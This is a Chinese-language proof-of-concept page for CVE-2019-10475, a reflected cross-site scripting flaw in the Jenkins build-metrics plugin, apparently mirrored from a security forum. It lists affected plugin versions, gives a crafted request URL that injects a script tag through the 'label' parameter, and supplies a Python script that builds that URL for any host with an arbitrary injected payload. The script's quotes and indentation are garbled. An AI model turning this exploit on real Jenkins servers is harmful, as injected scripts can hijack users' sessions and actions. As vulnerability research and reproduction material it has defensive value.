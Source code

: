 # （CVE-2019-10475）反射xss

> 原文：[https://www.zhihuifly.com/t/topic/2988](https://www.zhihuifly.com/t/topic/2988)

# （CVE-2019-10475） 插件反射型xss

## 一、漏洞简介

## 二、漏洞影响

360 FireLine插件， 最高包括1.7.2
Bitbucket OAuth插件， 最高包括0.9
Build-metrics插件 1.3及以下
部署WebLogic Plugin 最高至4.1
Dynatrace应用程序监视插件， 最高包括2.1.3
Dynatrace应用程序监视插件， 最高包括2.1.4
ElasticBox Jenkins Kubernetes CI / CD插件， 最高至1.3
包含1.1.4及以下版本的 全局Post Script插件
Libvirt Slaves插件， 最高包括1.8.5
截至 2.7.0的 Mattermost Notification插件
Sonar Gerrit插件， 最高包括2.3
Zulip插件 （包括1.1.0及以下）

## 三、复现过程

### 1、手工复现

该vulnearble插件位于http://localhost:8080/plugin/build-metrics/，漏洞参数为label。

```
http://192.168.1.75:8080/plugin/build-metrics/getBuildStats?label=<script>alert("CVE-2019-10475")</script>&range=2&rangeUnits=Weeks&jobFilteringType=ALL&jobFilter=&nodeFilteringType=ALL&nodeFilter=&launcherFilteringType=ALL&launcherFilter=&causeFilteringType=ALL&causeFilter=&Jenkins-Crumb=4412200a345e2a8cad31f07e8a09e18be6b7ee12b1b6b917bc01a334e0f20a96&json=%7B%22label%22%3A+%22Search+Results%22%2C+%22range%22%3A+%222%22%2C+%22rangeUnits%22%3A+%22Weeks%22%2C+%22jobFilteringType%22%3A+%22ALL%22%2C+%22jobNameRegex%22%3A+%22%22%2C+%22jobFilter%22%3A+%22%22%2C+%22nodeFilteringType%22%3A+%22ALL%22%2C+%22nodeNameRegex%22%3A+%22%22%2C+%22nodeFilter%22%3A+%22%22%2C+%22launcherFilteringType%22%3A+%22ALL%22%2C+%22launcherNameRegex%22%3A+%22%22%2C+%22launcherFilter%22%3A+%22%22%2C+%22causeFilteringType%22%3A+%22ALL%22%2C+%22causeNameRegex%22%3A+%22%22%2C+%22causeFilter%22%3A+%22%22%2C+%22Jenkins-Crumb%22%3A+%224412200a345e2a8cad31f07e8a09e18be6b7ee12b1b6b917bc01a334e0f20a96%22%7D&Submit=Search 
```

![image](img/3b907c11df79bf260c28fcf542e7d936.png)

### 2、利用脚本

> ```
> Usage:
> 
> $ python3 CVE-2019-10475.py --help
> 
> usage: CVE-2019-10475.py [-h] [-p PORT] [-d DOMAIN] [-i INJECT]
> 
> CVE-2019-10475 `optional arguments:
> 
> -h, --help            show this help message and exit
> 
> -p PORT, --port PORT  port
> 
> -d DOMAIN, --domain DOMAIN
> 
> domain
> 
> -i INJECT, --inject INJECT
> 
> inject` 
> ```

```
#!/usr/bin/env python

import sys

import argparse

VULN_URL = ‘’’{base_url}/plugin/build-metrics/getBuildStats?label={inject}&range=2&rangeUnits=Weeks&jobFilteringType=ALL&jobFilter=&nodeFilteringType=ALL&nodeFilter=&launcherFilteringType=ALL&launcherFilter=&causeFilteringType=ALL&causeFilter=&Jenkins-Crumb=4412200a345e2a8cad31f07e8a09e18be6b7ee12b1b6b917bc01a334e0f20a96&json=%7B%22label%22%3A+%22Search+Results%22%2C+%22range%22%3A+%222%22%2C+%22rangeUnits%22%3A+%22Weeks%22%2C+%22jobFilteringType%22%3A+%22ALL%22%2C+%22jobNameRegex%22%3A+%22%22%2C+%22jobFilter%22%3A+%22%22%2C+%22nodeFilteringType%22%3A+%22ALL%22%2C+%22nodeNameRegex%22%3A+%22%22%2C+%22nodeFilter%22%3A+%22%22%2C+%22launcherFilteringType%22%3A+%22ALL%22%2C+%22launcherNameRegex%22%3A+%22%22%2C+%22launcherFilter%22%3A+%22%22%2C+%22causeFilteringType%22%3A+%22ALL%22%2C+%22causeNameRegex%22%3A+%22%22%2C+%22causeFilter%22%3A+%22%22%2C+%22Jenkins-Crumb%22%3A+%224412200a345e2a8cad31f07e8a09e18be6b7ee12b1b6b917bc01a334e0f20a96%22%7D&Submit=Search’’’

def get_parser():

parser = argparse.ArgumentParser(description=‘CVE-2019-10475’)

parser.add_argument(’-p’, ‘–port’, help=‘port’, default=80, type=int)

parser.add_argument(’-d’, ‘–domain’, help=‘domain’, default=‘localhost’, type=str)

parser.add_argument(’-i’, ‘–inject’, help=‘inject’, default=’<script>alert(“CVE-2019-10475”)</script>’, type=str)

return parser

def main():

parser = get_parser()

args = vars(parser.parse_args())

port = args[‘port’]

domain = args[‘domain’]

inject = args[‘inject’]

if port == 80:

base_url = f’http://{domain}’

elif port == 443:

base_url = f’https://{domain}’

else:

base_url = f’http://{domain}:{port}’

build_url = VULN_URL.format(base_url=base_url, inject=inject)

print(build_url)

return 0 `if **name** == ‘**main**’:

sys.exit(main())` 
```
